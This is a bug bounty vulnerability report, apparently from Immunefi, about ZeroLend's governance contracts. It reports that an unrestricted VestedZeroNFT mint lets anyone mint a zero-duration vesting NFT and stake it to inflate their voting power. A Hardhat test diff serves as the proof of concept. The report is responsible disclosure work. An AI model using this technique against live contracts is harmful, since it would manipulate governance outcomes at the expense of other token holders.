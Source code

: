 
# Manipulation of governance is possible by minting to self

Submitted on Mar 4th 2024 at 04:01:59 UTC by @dontonka for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28987

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
VestedZeroNFT::mint is `accessible to anyone`, so anyone can mint a VestedNFT in the moment. This seems to be against the expected behavior as noted as follow by the `IVestedZeroNFT` interface and seems to warrant `Critical` vulnerability for the vote manipulation exploit this could allow.
```
Mints a vesting nft for a user. This is a privileged function meant to only be called by a contract or a deployer
```

## Vulnerability Details
As indicated, it's possible to mint to self and with no duration (linearDuration = 0 and cliffDuration = 0), which mean already all claimable, and then the attacker can transfer the NFT to the `StakingBonus contract` in order to boost his voting power right away. 

## Impact Details
Manipulation of governance is possible by minting to self a VestedNFT with no duration.

## References
https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L63-L100



## Proof of Concept

Add the following changes in `StakingBonus.test.ts` and run `npm test` command.
The test proove the following:
1) Can mint to self with no duration
2) Boost in voting power confirmed

```diff
     beforeEach(async () => {
       expect(await vest.lastTokenId()).to.equal(0);

-      // deployer should be able to mint a nft for another user
-      await vest.mint(
+      // fund the ant account. This could be earned from a normal vesting NFT or bought on the secondary market, just transfering from deployer here to make this simpler
+      await zero.transfer(ant.address, e18 * 20n);
+      await zero.connect(ant).approve(vest.target, e18 * 20n);
+
+      // Mint from ant account to himself
+      await vest.connect(ant).mint(
         ant.address,
         e18 * 20n, // 20 ZERO linear vesting
         0, // 0 ZERO upfront
-        1000, // linear duration - 1000 seconds
+        0, // linear duration - 0 seconds
         0, // cliff duration - 0 seconds
-        now + 1000, // unlock date
-        true, // penalty -> false
+        0, // unlock date
+        false, // penalty -> false
         0
       );

       expect(await vest.lastTokenId()).to.equal(1);
     });
```


```
-    it("should give a user a bonus if the bonus contract is well funded", async function () {
+    it.only("Any user can mint Vested NFT as long as they own enough $ZERO and boost their voting power.", async function () {
      // fund some bonus tokens into the staking bonus contract
      await zero.transfer(stakingBonus.target, e18 * 100n);

      // give a 50% bonus
      await stakingBonus.setBonusBps(50);

      // stake nft on behalf of the ant
      expect(
        await vest
          .connect(ant)
          ["safeTransferFrom(address,address,uint256)"](
            ant.address,
            stakingBonus.target,
            1
          )
      );

      // the staking contract should've awarded more zero for staking unvested tokens
      // 20 zero + 50% bonus = 30 zero... ->> which means about 29.999 voting power
      expect(await locker.balanceOfNFT(1)).greaterThan(e18 * 29n);
    });
```
